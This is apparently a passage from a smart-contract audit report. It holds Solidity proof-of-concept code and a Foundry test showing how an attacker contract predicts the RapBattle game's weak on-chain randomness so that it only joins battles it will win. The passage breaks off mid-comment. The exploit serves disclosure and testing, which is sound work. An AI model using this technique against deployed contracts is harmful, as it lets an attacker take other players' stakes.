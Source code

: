 ```javascript
            uint256 i;
            while (true) {
                vm.warp(block.timestamp + i);
                uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender))) % totalBattleSkill;
                if (random > defenderRapperSkill) {
                    oneShot.approve(address(rapBattle), _tokenId);
                    credToken.approve(address(rapBattle), rapBattle.defenderBet());
                    rapBattle.goOnStageOrBattle(_tokenId, rapBattle.defenderBet());
                    break;
                }    
                i++;
            }

        }

        function getRapperNftAndStakeIt(uint256 _tokenId, uint256 _days) external {
            oneShot.mintRapper();
            oneShot.approve(address(streets), _tokenId);
            streets.stake(_tokenId);

            vm.warp(block.timestamp + _days);
            streets.unstake(_tokenId);
        }

        function onERC721Received(address, address, uint256, bytes calldata) external pure override returns (bytes4) {
            return IERC721Receiver.onERC721Received.selector;
        }

    }
```

and here is the Test you can Run:

```javascript
    function testAttackerCanGuessWhoWins() public {
        // user mints himself an Rapper NFT and stakes it for 4 days to get 4 Cred tokens in return, to become the `defender`.
        vm.startPrank(user);

        oneShot.mintRapper();
        oneShot.approve(address(streets), 0);
        streets.stake(0);

        vm.warp(block.timestamp + 4 days);
        streets.unstake(0);
        assertEq(cred.balanceOf(user), 4);

        oneShot.approve(address(rapBattle), 0);
        cred.approve(address(rapBattle), 4);
        rapBattle.goOnStageOrBattle(0, 4);

        vm.stopPrank();

        // attacker mints himself an Rapper NFT and stakes it for 4 days to get 4 Cred tokens in return, to become the `challenger`.
        AttackerJoinsBattle attackerContract = new AttackerJoinsBattle(oneShot, cred, rapBattle, streets);
        uint256 tokenId = oneShot.getNextTokenId();
        attackerContract.getRapperNftAndStakeIt(tokenId, 4 days);

        // take a look at `joinBattleToWin()` function in Attacker Contract, Which showcases how someone can guess random number if you use
```